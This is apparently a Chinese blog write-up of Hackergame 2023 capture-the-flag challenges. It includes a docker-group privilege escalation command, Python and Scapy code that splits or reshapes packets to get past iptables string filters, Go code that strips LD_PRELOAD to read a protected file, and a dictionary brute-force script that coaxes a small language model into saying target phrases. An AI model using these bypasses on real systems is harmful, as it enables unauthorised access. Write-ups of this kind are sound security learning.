- 404 Not Found

  ```http
  GET /114514 HTTP/1.1\r\n
  Host: example.com\r\n\r\n
  ```

- 405 Not Allowed

  ```http
  PWN / HTTP/1.1\r\n
  Host: example.com\r\n\r\n

- 505 HTTP Version Not Supported

  ```http
  GET / HTTP/114514\r\n
  Host: example.com\r\n\r\n
  ```

- 414 Request-URI Too Large

  ```http
  GET /南无、喝啰怛那、哆啰夜耶，南无、阿唎耶，婆卢羯帝、烁钵啰耶，菩提萨埵婆耶，摩诃萨埵婆耶，摩诃、迦卢尼迦耶，唵，萨皤啰罚曳，数怛那怛写，南无、悉吉栗埵、伊蒙阿唎耶，婆卢吉帝、室佛啰楞驮婆，南无、那啰谨墀，醯利摩诃、皤哆沙咩，萨婆阿他、豆输朋，阿逝孕，萨婆萨哆、那摩婆萨哆，那摩婆伽，摩罚特豆。怛侄他。唵，阿婆卢醯。卢迦帝。迦罗帝。夷醯唎。摩诃菩提萨埵，萨婆萨婆。摩啰摩啰，摩醯摩醯、唎驮孕。俱卢俱卢、羯蒙。度卢度卢、罚阇耶帝。摩诃罚阇耶帝。陀啰陀啰。地唎尼。室佛啰耶。遮啰遮啰。摩么罚摩啰。穆帝隶。伊醯伊醯。室那室那。阿啰参、佛啰舍利。罚沙罚参。佛啰舍耶。呼嚧呼嚧摩啰。呼嚧呼嚧醯利。娑啰娑啰，悉唎悉唎。苏嚧苏嚧。菩提夜、菩提夜。菩驮夜、菩驮夜。弥帝唎夜。那啰谨墀。地利瑟尼那。婆夜摩那。娑婆诃。悉陀夜。娑婆诃。摩诃悉陀夜。娑婆诃。悉陀喻艺。室皤啰耶。娑婆诃。那啰谨墀。娑婆诃。摩啰那啰。娑婆诃。悉啰僧、阿穆佉耶，娑婆诃。娑婆摩诃、阿悉陀夜。娑婆诃。者吉啰、阿悉陀夜。娑婆诃。波陀摩、羯悉陀夜。娑婆诃。那啰谨墀、皤伽啰耶。娑婆诃。摩婆利、胜羯啰夜。娑婆诃。南无、喝啰怛那、哆啰夜耶，南无、阿唎耶。婆嚧吉帝。烁皤啰夜。娑婆诃。唵，悉殿都。漫多啰。跋陀耶，娑婆诃。南无、喝啰怛那、哆啰夜耶，南无、阿唎耶，婆卢羯帝、烁钵啰耶，菩提萨埵婆耶，摩诃萨埵婆耶，摩诃、迦卢尼迦耶，唵，萨皤啰罚曳，数怛那怛写，南无、悉吉栗埵、伊蒙阿唎耶，婆卢吉帝、室佛啰楞驮婆，南无、那啰谨墀，醯利摩诃、皤哆沙咩，萨婆阿他、豆输朋，阿逝孕，萨婆萨哆、那摩婆萨哆，那摩婆伽，摩罚特豆。怛侄他。唵，阿婆卢醯。卢迦帝。迦罗帝。夷醯唎。摩诃菩提萨埵，萨婆萨婆。摩啰摩啰，摩醯摩醯、唎驮孕。俱卢俱卢、羯蒙。度卢度卢、罚阇耶帝。摩诃罚阇耶帝。陀啰陀啰。地唎尼。室佛啰耶。遮啰遮啰。摩么罚摩啰。穆帝隶。伊醯伊醯。室那室那。阿啰参、佛啰舍利。罚沙罚参。佛啰舍耶。呼嚧呼嚧摩啰。呼嚧呼嚧醯利。娑啰娑啰，悉唎悉唎。苏嚧苏嚧。菩提夜、菩提夜。菩驮夜、菩驮夜。弥帝唎夜。那啰谨墀。地利瑟尼那。婆夜摩那。娑婆诃。悉陀夜。娑婆诃。摩诃悉陀夜。娑婆诃。悉陀喻艺。室皤啰耶。娑婆诃。那啰谨墀。娑婆诃。摩啰那啰。娑婆诃。悉啰僧、阿穆佉耶，娑婆诃。娑婆摩诃、阿悉陀夜。娑婆诃。者吉啰、阿悉陀夜。娑婆诃。波陀摩、羯悉陀夜。娑婆诃。那啰谨墀、皤伽啰耶。娑婆诃。摩婆利、胜羯啰夜。娑婆诃。南无、喝啰怛那、哆啰夜耶，南无、阿唎耶。婆嚧吉帝。烁皤啰夜。娑婆诃。唵，悉殿都。漫多啰。跋陀耶，娑婆诃。南无、喝啰怛那、哆啰夜耶，南无、阿唎耶，婆卢羯帝、烁钵啰耶，菩提萨埵婆耶，摩诃萨埵婆耶，摩诃、迦卢尼迦耶，唵，萨皤啰罚曳，数怛那怛写，南无、悉吉栗埵、伊蒙阿唎耶，婆卢吉帝、室佛啰楞驮婆，南无、那啰谨墀，醯利摩诃、皤哆沙咩，萨婆阿他、豆输朋，阿逝孕，萨婆萨哆、那摩婆萨哆，那摩婆伽，摩罚特豆。怛侄他。唵，阿婆卢醯。卢迦帝。迦罗帝。夷醯唎。摩诃菩提萨埵，萨婆萨婆。摩啰摩啰，摩醯摩醯、唎驮孕。俱卢俱卢、羯蒙。度卢度卢、罚阇耶帝。摩诃罚阇耶帝。陀啰陀啰。地唎尼。室佛啰耶。遮啰遮啰。摩么罚摩啰。穆帝隶。伊醯伊醯。室那室那。阿啰参、佛啰舍利。罚沙罚参。佛啰舍耶。呼嚧呼嚧摩啰。呼嚧呼嚧醯利。娑啰娑啰，悉唎悉唎。苏嚧苏嚧。菩提夜、菩提夜。菩驮夜、菩驮夜。弥帝唎夜。那啰谨墀。地利瑟尼那。婆夜摩那。娑婆诃。悉陀夜。娑婆诃。摩诃悉陀夜。娑婆诃。悉陀喻艺。室皤啰耶。娑婆诃。那啰谨墀。娑婆诃。摩啰那啰。娑婆诃。悉啰僧、阿穆佉耶，娑婆诃。娑婆摩诃、阿悉陀夜。娑婆诃。者吉啰、阿悉陀夜。娑婆诃。波陀摩、羯悉陀夜。娑婆诃。那啰谨墀、皤伽啰耶。娑婆诃。摩婆利、胜羯啰夜。娑婆诃。南无、喝啰怛那、哆啰夜耶，南无、阿唎耶。婆嚧吉帝。烁皤啰夜。娑婆诃。唵，悉殿都。漫多啰。跋陀耶，娑婆诃。HTTP/1.1\r\n
  Host: example.com\r\n\r\n
  ```

  

- 206 Partial Content

  ```http
  GET / HTTP/1.1\r\n
  Range: bytes=1-\r\n
  Host: example.com\r\n\r\n
  ```

- 416 Requested Range Not Satisfiable

  ```http
  GET / HTTP/1.1\r\n
  Range: bytes=-1-\r\n
  Host: example.com\r\n\r\n
  ```

- 100 Continue

  ```http
  GET / HTTP/1.1\r\n
  Expect: 100-continue\r\n
  Host: example.com\r\n\r\n\r\n
  ```

集邮出`10/12`个，未爆flag。


####  Docker for Everyone

> X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 docker，他把同学的账号加入了 docker 用户组，这样就不需要给同学 sudo 权限了！
>
> 但果真如此吗？
>
> ------
>
> 提供的环境会自动登录低权限的 `hg` 用户。登录后的提示信息显示了如何在该环境中使用 docker。读取 `/flag`（注意其为软链接）获取 flag。
>
> 题目环境运行 15 分钟后会自动关闭。
>
> 你可以在下面列出的两种方法中任选其一来连接题目：
>
> - 点击下面的「打开/下载题目」按钮通过网页终端与远程交互。如果采用这种方法，在正常情况下，你不需要手动输入 token。
> - 在 Linux、macOS、WSL 或 Git Bash 等本地终端中使用 `stty raw -echo; nc 202.38.93.111 10338; stty sane` 命令来连接题目。如果采用这种方法，你必须手动输入 token（复制粘贴也可）。**注意，输入的 token 不会被显示，输入结束后按 Ctrl-J 即可开始题目。**
>
> 无论采用哪种方法连接题目，启动题目均需要数秒时间，出现黑屏是正常现象，请耐心等待。

按照题意，给了所有人docker运行权限，且docker运行在root用户下。

直接映射`/flag`至容器中即可打印内容。

`docker run -it --rm -v /flag:/flag alpine`


`flag{u5e_r00t1ess_conta1ner_90d889fb0b_plz!}`


#### 惜字如金 2.0

> 惜字如金一向是程序开发的优良传统。无论是「[creat](https://stackoverflow.com/questions/8390979/why-create-system-call-is-called-creat)」还是「[referer](https://stackoverflow.com/questions/8226075/why-http-referer-is-single-r-not-http-referrer)」，都无不闪耀着程序员「节约每句话中的每一个字母」的优秀品质。上一届信息安全大赛组委会在去年推出「惜字如金化」（XZRJification）标准规范后，受到了广大程序开发人员的好评。现将该标准辑录如下。
>
> ##### 惜字如金化标准
>
> 惜字如金化指的是将一串文本中的部分字符删除，从而形成另一串文本的过程。该标准针对的是文本中所有由 52 个拉丁字母连续排布形成的序列，在下文中统称为「单词」。一个单词中除「`AEIOUaeiou`」外的 42 个字母被称作「辅音字母」。整个惜字如金化的过程按照以下两条原则对文本中的每个单词进行操作：
>
> - 第一原则（又称 creat 原则）：如单词最后一个字母为「`e`」或「`E`」，且该字母的上一个字母为辅音字母，则该字母予以删除。
> - 第二原则（又称 referer 原则）：如单词中存在一串全部由完全相同（忽略大小写）的辅音字母组成的子串，则该子串仅保留第一个字母。
>
> 容易证明惜字如金化操作是幂等的：惜字如金化多次和惜字如金化一次的结果相同。
>
> ##### 你的任务
>
> 附件包括了一个用于打印本题目 flag 的程序，且已经经过惜字如金化处理。你需要做的就是得到程序的执行结果。
>
> ##### 附注
>
> 本文已经过惜字如金化处理。解答本题不需要任何往届比赛的相关知识。
>
> **[打开/下载题目](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/惜字如金 2.0/src/print_flag.py)**

查看去年题解是看字符出现可能性进行枚举。

```python
cod_dict += ['nymeh1niwemflcir}echaet']
cod_dict += ['a3g7}kidgojernoetlsup?h']
cod_dict += ['ulw!f5soadrhwnrsnstnoeq']
cod_dict += ['ct{l-findiehaai{oveatas']
cod_dict += ['ty9kxborszstguyd?!blm-p']
```

结合代码里`check_equals(set(len(s) for s in cod_dict), {24})`可知每个串中删除了一个字符。


首先根据第一原则，每个串结尾可能都是`e`，测试下把所有串结尾都加上一个特殊字符并打印flag。得到`5laulyoufeepr3cvees3df7weparsn3sfr1gwn!}`

观察发现虽然未出现特殊字符，但是结尾是`}`正确，确有正常的单词`you`，疑似单词`pars(e)`。那么可能有一串的结尾是`e`被撞对了，且只能是存在`}`第一或第二串。分别尝试在首位添加字符后打印发现是第二串可能为`a3g7}kidgojernoetlsup?he`。

再观察密文flag

```python
flag = decrypt_data([53, 41, 85, 109, 75, 1, 33, 48, 77, 90,
                     17, 118, 36, 25, 13, 89, 90, 3, 63, 25,
                     31, 77, 27, 60, 3, 118, 24, 62, 54, 61,
                     25, 63, 77, 36, 5, 32, 60, 67, 113, 28])
```

看最后一个字符所在索引为28，可以肯定第二串撞对了。

接着我们知道flag的前5位必为`flag{`，及其对应的索引`53, 41, 85, 109, 75`。

打印下字符列表

```python
idx = 0
for s in cod_dict:
    for c in s:
        print(c + "\t", end="")
    print()
    for c in s:
        print(str(idx) + "\t", end="")
        idx += 1
    print()
```

得到 

对照下`flag{`的索引我们可以推测：

- f：第三行索引52前（49-51）必缺少一个字符。且密文中没出现，那么它无关紧要，只需为占位符
- l：第二行推测证据+1
- a：第四行无法推测
- g：第五行索引108前（96-107）缺少一个字符。
- {：第四行索引74前（72,73）必缺少一个字符。且密文中没出现，那么它无关紧要，只需为占位符
- 密文中涉及第一行的索引有`1,17,13,3,5`，那么第一行索引17后具体字符无关紧要
- 密文中涉及第五行的索引有`109,118,113`，那么第五行索引109前具体字符无关紧要

结合所有线索，我们的枚举级别大幅降低。可能性如下（🪐占位）

```log
n(n?)y(y?)m(m?)eh([he]?)1n(n?)iw(w?)em(m?)f(f?)l(l?)c(c?)ir([re]?)}echaet
a3g7}kidgojernoetlsup?he
u🪐lw!f5soadrhwnrsnstnoeq
🪐ct{l-findiehaai{oveatas
(🪐?)ty9kxborszstguyd?!blm-p(🪐?)
```

第三四行尝试添加一个占位符后打印得到`flau{you-vepr3cover3d-7hepan5w3r-r1ght!}`，发现可能关键词`cover3d`，`r1ght`。

第五行尝试添加一个占位符后打印得到`flag{you-ve-r3cover3d-7he-an5w3r-r1ght?}`，得到flag。

最终`code_dict`如下：

```python
code_dict = []
code_dict += ['nymeh1niwemflcir}echaet🪐']
code_dict += ['a3g7}kidgojernoetlsup?he']
code_dict += ['ul🪐w!f5soadrhwnrsnstnoeq']
code_dict += ['c🪐t{l-findiehaai{oveatas']
code_dict += ['🪐ty9kxborszstguyd?!blm-p']
```


`flag{you-ve-r3cover3d-7he-an5w3r-r1ght?}`

#### 🪐 高频率星球

> 茫茫星系间，文明被分为不同的等级。每一个文明中都蕴藏了一种古老的力量 —— flag，被认为是其智慧的象征。
>
> 你在探索的过程中意外进入了一个封闭空间。这是一个由神秘的高频率星人控制着的星球。星球的中心竖立着一个巨大的三角形任务牌，上面刻着密文和挑战。
>
> 高频率星人的视觉输入频率极高，可以一目千行、过目不忘，他们的交流对地球人来说过于超前了。flag 被藏在了这段代码中，但是现在只有高频率星人在终端浏览代码的时候，使用 [asciinema](https://asciinema.org/) 录制的文件了，你能从中还原出代码吗？
>
> **[打开/下载题目](https://ftp.lug.ustc.edu.cn/~taoky/TinyStories-33M.zip)**

题目已给出录像程序，可以看到其提供一个`cat`方法。

>  [cat <filename> ](https://github.com/asciinema/asciinema#cat-filename)
>
> Print full output of recorded asciicast to a terminal.

执行`asciinema cat ./asciinema_restore.rec > output.txt`即可将录像存为文本。

接下来只需清除掉ASCII控制字符即可食用，可以简单手动全局替换为空。


`flag{y0u_cAn_ReSTorE_C0de_fr0m_asc11nema_3db2da1063300e5dabf826e40ffd016101458df23a371}`


#### 🪐 小型大语言模型星球

> 茫茫星系间，文明被分为不同的等级。每一个文明中都蕴藏了一种古老的力量 —— flag，被认为是其智慧的象征。
>
> 你在探索的过程中意外进入了一个封闭空间。这是一个由神秘的 33M 参数的「小型大语言模型」控制着的星球。星球的中心竖立着一个巨大的三角形任务牌，上面刻着密文和挑战。
>
> 在这个星球上，你需要与这个先进的语言模型展开一场交流。通过与它对话，诱导它说出指定的词语，从这个神秘智慧体中获得 flag。你需要让这个语言模型分别说出 `you are smart`，`accepted`，`hackergame` 和 `🐮`，以获得四个 flag，证明你足够聪明以控制这个星球的命运。
>
> ###### 题目信息
>
> 如果本地运行遇到网络问题，可使用 [TinyStories-33M.zip](https://hack.lug.ustc.edu.cn/media/21fb5dd1-efac-5554-a7d2-b2a8d8d5c75f/TinyStories-33M.zip) 中缓存的模型参数（约 244 MB，未做任何修改），并将代码中的：
>
> ```
> from_pretrained("roneneldan/TinyStories-33M")
> ```
>
> 改为本地的：
>
> ```
> from_pretrained("./TinyStories-33M")
> ```


这题就很玄学，多尝试想办法触发关键词。

##### You Are Smart

直接问`Am I smart`试试

> enough to do that, Mommy?"
>
> Her mom smiled and said, "Yes, you are very smart. You can do

再问`Am I smart no very`

> ?"
>
> The little girl smiled and said, "Yes, you are smart! You can do it!"
>
> The little girl was so happy
> 👏👏👏 flag1: `flag{!-7hINk-Y0U-Ar3-R3a!!y-RE@!1y-SMaRt}` 👏👏👏

##### Accepted

试了下很多可能回复`Accepted`相关的单词`Challenge`， `Terms`，`Offer`，`Contract`等等都不行。

没什么头绪了，既然题干要求消息长度不超过 7那么转而试试爆破吧。

先本地跑起模型，然后找到个能用的英文词库 [GitHub - dwyl/english-words: :memo: A text file containing 479k English words for all your dictionary/word-based projects e.g: auto-completion / autosuggestion](https://github.com/dwyl/english-words) ，筛选出来其中少于或等于7个字符的单词进行爆破。


```python
import json
import sys
from gradio_client import Client

client = Client("http://127.0.0.1:7860/")


def check_response(message, response):
    response = response.strip().lower()
    if "flag2" in response or "flag3" in response or "flag4" in response:
        print("\n\n")
        print("Found flag in response")
        print("Message: ", message)
        print("Response: ", response)
        sys.exit(0)


if __name__ == '__main__':
    words = json.load(open('words_dictionary.json'))

    words_less_than_7 = []

    for key in words:
        if len(key) <= 7:
            words_less_than_7.append(key)

    SKIP_TO = 1
    size = len(words_less_than_7)
    idx = 1
    for key in words_less_than_7:
        if idx < SKIP_TO:
            idx += 1
            continue
        result = client.predict(
            key,  # str  in 'Message' Textbox component
            api_name="/chat"
        )
        print(f'{idx}/{size} Trying word: {key}')
        print(result)
        check_response(key, result)
        print('\n\n')
        idx += 1
```


跑到`16505/97557 Trying word: chiasmi`时得到flag。

> accepted the invitation and they both went to the party.
>
> At the party, they had lots of fun. They played games, ate cake and
> 🎉🎉🎉 flag2: `flag{you-arE-4cCePTed-7O-CoN7!Nu3-7hE-gaMe}` 🎉🎉🎉


flag1：`flag{!-7hINk-Y0U-Ar3-R3a!!y-RE@!1y-SMaRt}`

flag2：`flag{you-arE-4cCePTed-7O-CoN7!Nu3-7hE-gaMe}` 

#### 🪐 流式星球

> 茫茫星系间，文明被分为不同的等级。每一个文明中都蕴藏了一种古老的力量 —— flag，被认为是其智慧的象征。
>
> 你在探索的过程中意外进入了一个封闭空间。这是一个由神秘的流式星人控制着的星球。星球的中心竖立着一个巨大的三角形任务牌，上面刻着密文和挑战。
>
> 流式星人用流式数据交流，比如对于视频来说，他们不需要同时纵览整个画面，而是直接使用像素流。为了方便理解，你把这个过程写成了一个 Python 脚本（见附件），flag 就藏在这个视频（见附件）中。尽管最后丢掉了一部分数据，你能把 flag 还原出来吗？
>
> **[Python 脚本](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/🪐 流式星球/src/create_video.py)**
>
> **[视频像素流文件](https://ftp.lug.ustc.edu.cn/~rtxux/0bd1f9a2-ccab-449c-b95c-af57f7ebc91e/video.bin)**

看代码发现是读取视频帧数据并拍扁保存起来。查询[python - How each video frame captured is represented in Opencv? - Stack Overflow](https://stackoverflow.com/questions/39614825/how-each-video-frame-captured-is-represented-in-opencv)得知opencv读取到的每帧数据格式为从左到右，从上到下一行行像素的BGR值。全拍扁成一行符合题意。那么题目的难点就是如何知道视频的帧数及分辨率。

一般视频的前后两帧差距不会太大，想碰碰运气，直接hex编辑器打开文件。选了比较显眼的240Bytes作为关键词搜索。

发现后面出现这些关键词处为2121、3402、4683，相差1281。出现这种结果的原因很可能是几行像素非常相似。那么猜测视频的长就是1280，直接盲猜宽为720。

```python
with open("video.bin", "rb") as output:
    buffer = np.fromfile(output, dtype=np.uint8)
    file_size = buffer.nbytes

    width = 1280
    height = 720

    frame = buffer[:width * height] # 错误的，缺少了颜色信息
    frame = frame.reshape((height, width)) # 错误的，缺少了颜色信息

    image = Image.fromarray(frame)
    plt.figure("test")
    plt.imshow(image)
    plt.show()
```

取一帧看下发现虽然歪了但是能看就懒得管了。接着把宽放到1280可以看到图片中间偏下附近有两条分界线。

保存图片后用编辑器打开可以看到竖向分界线的位置是760，即为宽。


接着导出所有图片帧即可看到flag。


做完写博客才反应过来导出的图片少了颜色信息（

结果我太菜加上颜色信息图片瞬间变小，反而看不清flag了，懒得花时间研究了（

`flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}`


#### 🪐 低带宽星球

> 茫茫星系间，文明被分为不同的等级。每一个文明中都蕴藏了一种古老的力量 —— flag，被认为是其智慧的象征。
>
> 你在探索的过程中意外进入了一个封闭空间。这是一个由神秘的低带宽星人控制着的星球。星球的中心竖立着一个巨大的三角形任务牌，上面刻着密文和挑战。
>
> 低带宽星人的通信速度很低，只能以 1 字节 / 天的速度接受信息，所以在这个星球上，你需要将一张图片用很少的字节数传输给低带宽星人，然后获得 flag。具体来说你需要将一张图片无损压缩（每个像素的颜色都一致）：
>
> - 压缩至 2KiB (2048 字节) 及以下，获得 flag1；
> - 压缩至 50 字节及以下，获得 flag2。
>
> [题目后端环境下载（Dockerfile 与脚本）](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/🪐 低带宽星球/files/image-compressor-backend.zip)

嗯......要压缩图片，可能需要了解各种图片格式的构成。完全没有相关知识，搜索一下看有没有现成的轮子。

##### 小试牛刀

GitHub上搜到了很多很多压缩工具，试了几个。

- 这个就可以[GitHub - ace-dent/pngslim: Optimize png files – when every byte counts!](https://github.com/ace-dent/pngslim)
- 这个也可以[GitHub - Lymphatus/caesium-clt: Caesium Command Line Tools - Lossy/lossless image compression tool](https://github.com/Lymphatus/caesium-clt)

`flag{A1ot0f_t0015_is_available_to_compre55_PNG}`


#### Komm, süsser Flagge

> > Now the flag is all mine
> > Can't live without the trust from ip tables
>
> 小 Z 写好了一个 flag 服务器，但是他不想让 flag 被轻易地获取，于是他在服务器上设置了一些防火墙规则。如果你的流量不幸被匹配上了，那么你的连接就会被切断。
>
> 尽管如此，聪明的小 Q 还是找到办法绕过了精心设计的规则，并偷走了小 Z 的 flag。
>
> ------
>
> 小 Z 部署的 iptables 规则如下：
>
> ```
> *filter
> :INPUT ACCEPT [0:0]
> :OUTPUT ACCEPT [0:0]
> :FORWARD DROP [0:0]
> :myTCP-1 - [0:0]
> :myTCP-2 - [0:0]
> :myTCP-3 - [0:0]
> -A INPUT -p tcp --dport 18080 -j myTCP-1
> -A INPUT -p tcp --dport 18081 -j myTCP-2
> -A INPUT -p tcp --dport 18082 -j myTCP-3
> 
> -A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset
> 
> -A myTCP-2 -p tcp -m u32 --u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50" -j REJECT --reject-with tcp-reset
> 
> -A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
> -A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
> COMMIT
> ```
>
> 所有小题都需要 POST 你的 token 到 `/`，获取 flag，在**没有以上规则**的情况下，可以直接使用 `curl` 获取 flag（需要将 `114514:asdfgh==` 替换成你的 token）：
>
> ```
> curl -X POST -d "114514:asdfgh==" http://题目地址
> ```
>
> 其中：
>
> - 第一小题位于 [http://202.38.93.111:18080](http://202.38.93.111:18080/)，对应防火墙规则中的 `myTCP-1` 链；
>
> - 第二小题位于 [http://202.38.93.111:18081](http://202.38.93.111:18081/)，对应防火墙规则中的 `myTCP-2` 链；
>
> - 第三小题位于http://202.38.93.111:18082，对应防火墙规则中的 `myTCP-3`链。
>
>      - 注意：第三小问的链接可能无法直接在浏览器中打开，这是预期行为。
>
> **某些网络环境下本题可能无法正常解出，你可以使用下面提供的 OpenVPN，并将上面的 IP 地址替换为 `192.168.23.1` 尝试解题，端口号不变。**
>
> - [OpenVPN 配置文件](https://hack.lug.ustc.edu.cn/media/4e97494e-3937-5248-a2fe-69978d94d2cf/hg-guest.ovpn)
>
>    点击下方的「打开/下载题目」按钮，下载附件。附件可以用于在 Docker 中复现题目的防火墙环境，其中 `main.go` 并非题目核心内容，仅供参考和测试，与实际运行的程序有所不同。
>    
>    **[打开/下载题目](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Komm%2C süsser Flagge/files/iptables-flag.tar.gz)**
>    
>    


##### 我的 POST

看到`iptables`里的匹配是对TCP数据包进行完整的`POST`字符串匹配，直觉想是不是可以编码替换，或者拆分数据包。
包装好的HTTP库可能不够用，找了找用Python有用TCP实现HTTP协议的现有轮子[700行代码, 用python实现一个HTTP客户端 - 终末之冬 - 博客园 (cnblogs.com)](https://www.cnblogs.com/q1214367903/p/13531859.html)，也许可以自定义。

问了下ChatGPT说是确实可以用`Packet Fragmentation`，搜了搜工具有个`fragroute`，但看了看完全不会用。

后面找到了`Scapy`，很强大，可以各种自定义包发送。但它太强大了，不适合我的段位，学了半天用不会。

兜兜转转还是回到上面的Python轮子。修改`HTTPConnection`里的`send`方法：

```python
def send(self, data: bytes) -> None:
    if self.sock is None:
        self.connect()

    # self.sock.sendall(data)
    
    for b in data: # 一个字节一个字节发包
        self.sock.sendall(bytes([b]))
```

请求代码：

```python
from client import HTTPConnection

dest = "202.38.93.111"
port = 18080


def fetch(conn: HTTPConnection, url: str = '/') -> None:
    body = "TOKEN"
    conn.request('POST', url, body=body)
    res = conn.get_response()
    print(res.read())


connection = HTTPConnection(dest, port)

fetch(connection)

```


`flag{ea5Y_sPl1tt3r_358275d832}`

##### 我的 P

这个规则看不懂，搜了下感觉很高大上 [我所理解的 iptables u32 匹配 - imlonghao](https://imlonghao.com/30.html) 是字节级的匹配工具。结合题目的提示，这应该是匹配了`P`。

上面的代码还是可以用，换端口跑下得到答案。


`flag{r3s3rv3d_bYtes_2aa84066c7}`


##### 我的 GET

这题还是研究了`scapy`好久，但没解出来，不过成功完成了HTTP的三次握手。`IP`协议20字节+`TCP`最小20字节+`GET / HTTP`的10字节刚好50字节。在`iptables`的匹配范围内。

在 [Simple Scapy TCP Session (github.com)](https://gist.github.com/N0dr4x/ffe99618a738978605719ce525a33042) 这个基础上简单修改，在`connect()`方法中组装协议时加上`GET / HTTP`即可。

```python
def connect(self):
    self.seq = random.randrange(0, (2 ** 32) - 1)

    syn = self.ip / TCP(sport=self.sport, dport=self.dport, seq=self.seq, flags='S') / "GET / HTTP"
    syn_ack = sr1(syn, timeout=self._timeout)
    self.seq += 1

    assert syn_ack.haslayer(TCP), 'TCP layer missing'
    assert syn_ack[TCP].flags & 0x12 == 0x12, 'No SYN/ACK flags'
    assert syn_ack[TCP].ack == self.seq, 'Acknowledgment number error'

    self.ack = syn_ack[TCP].seq + 1
    ack = self.ip / TCP(sport=self.sport, dport=self.dport, seq=self.seq, flags='A', ack=self.ack) / "GET / HTTP"
    send(ack)

    self.connected = True
    self._start_ackThread()
    print('Connected')
```

不过没有研究出来如何使用`POST`方法请求。最开始尝试了[HTTP Verb Tunnelling](https://fanoframework.github.io/security/http-verb-tunnelling/)没有用。

然后试了 [apache - HTTP pipelining request text example - Stack Overflow](https://stackoverflow.com/questions/19619124/http-pipelining-request-text-example) 也不行，看了下服务器源码特意关闭了`Keep-Alive`。

最后尝试设置了`TCP`头中的`Header Length / Data Position`字段将`payload`指向`GET / HTTP`之后写`POST`不知为何会触发`400`，试了好久搁置。


#### 为什么要打开 /flag 😡

> > 至少见一面让我当面道歉好吗？😭我也吓了一跳，没想到事情会演变成那个样子……😭所以我想好好说明一下😭我要是知道就会阻止它们的，但是明明文件描述符都已经关闭了突然间开始 `open()`😭没能阻止大家真是对不起……😭你在生气对吧……😭我想你生气也是当然的😭但是请你相信我。`/flag`，本来没有在我们的预定打开的文件里的😭真的很对不起😭我答应你再也不会随意打开文件了😭我会让各个函数保证再也不打开这个文件😭能不能稍微谈一谈？😭我真的把这里的一切看得非常重要😭所以说，擅自打开 `/flag` 的时候我和你一样难过😭我希望你能明白我的心情😭拜托了。我哪里都会去的😭我也会好好跟你说明我不得不这么做的理由😭我想如果你能见我一面，你就一定能明白的😭我是你的同伴😭我好想见你😭
>
> ------
>
> 挽留失败后，她决定在程序启动时做些手脚，让所有访问 `/flag` 的请求都以某种方式变成打开 `/fakeflag` 的请求。
>
> 「我不会再打开 `/flag` 了」。真的吗？
>
> [题目附件下载](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E4%B8%BA%E4%BB%80%E4%B9%88%E8%A6%81%E6%89%93%E5%BC%80%20flag%20%F0%9F%98%A1/files/fakeflag-backend.zip)（第二小题需要 Linux kernel >= 5.9）

Binary的题目没有基础了，不过小题的题目给了解题思路提示。

##### LD_PRELOAD, love!	

搜索`LD_PRELOAD ctf`得知

> **LD_PRELOAD**是Linux系统的一个环境变量，用于动态库的加载，动态库加载的优先级最高,即加载动态库时先加载LD_PRLOAD，它可以影响程序的运行时的链接（Runtime linker）。**LD_PRELOAD的功能主要就是用来有选择性的载入不同动态链接库中的相同函数**。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。

通过题目给出的`server.py`
```python
if STAGE == "1":
    output = subprocess.run(
        ["/dev/shm/executable"],
        stdin=subprocess.DEVNULL,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
        user="nobody",
        group="nogroup",
        env={
            "LD_PRELOAD": "/stage1.so"
        }
    )
```

可以看到`LD_PRELOAD`是设在环境变量里了，那想办法清掉这个环境变量即可。

由于没有`C`语言基础，这里用`Go`写了个：

```go
package main

import (
	"fmt"
	"os"
	"os/exec"
	"strings"
)

func main() {
	env := os.Environ()

	// check if LD_PRELOAD is set
	isSet := false
	for _, v := range env {
		if strings.Contains(v, "LD_PRELOAD") {
			fmt.Println("LD_PRELOAD is set")
			isSet = true

			err := os.Unsetenv("LD_PRELOAD")
			if err != nil {
				panic(err)
			}

			out, err := exec.Command("/dev/shm/executable").Output()
			if err != nil {
				panic(err)
			}
			fmt.Println(string(out))

			break
		}
	}

	if !isSet {
		file, err := os.ReadFile("/flag")
		if err != nil {
			panic(err)
		}

		content := string(file)
		fmt.Println(content)
	}
}
```

运行得到flag

> ### 运行结果
>
> ```
> Return code: 0
> stdout (标准输出，前 8192 个字节):
> LD_PRELOAD is set
> flag{nande_ld_preload_yattano_5fb24fb653}
> 
> 
> 
> stderr (标准错误，前 8192 个字节):
> ```


`flag{nande_ld_preload_yattano_5fb24fb653}`

#### 异星歧途

> 你降落在荒废星球的角落，开始新的征程，但从科技树底层一步步发展总是令人不快。幸运的是，在看似荒废的土地上仍然留存着高级文明的痕迹：你找到一台冲击反应堆——如果它工作起来，就可以获得用之不尽的电力——尽管它现在没有启动，并且控制工作条件的部件和工厂被 32 个按钮和相连的逻辑系统牢牢掌控。
>
> 于是：你的任务是在不进行任何其他操作的情况下拨动这 32 个按钮，使冲击反应堆能够**稳定运行**。
>
> 请点击下方的「打开/下载题目」按钮，下载题目文件。题目文件对应的 Mindustry 版本为 [7.0 Build 146](https://anuke.itch.io/mindustry)。打开游戏后依次选择 **地图编辑器—加载地图—选择题目文件 `the_planet.msav` —返回主菜单**，然后选择 **开始游戏—自定义游戏—选择导入的名为 the planet 的地图—不改变任何选项点击开始游戏** 。
>
> 将正确的按钮序列以 01 序列的形式提交至 [检查网站](http://202.38.93.111:10070/?t) 或 `nc 202.38.93.111 10071` 获得 flag。按钮未按下（即游戏开始时默认状态）用 0 表示，按下（即点击按钮后按钮颜色变亮）用 1 表示，顺序从左到右。
>
> 提示：在游戏主菜单选择 **设置—图形—显示建筑状态** 可以开启建筑状态显示（即图片中建筑右下角的菱形），这可能有助于解题。
>
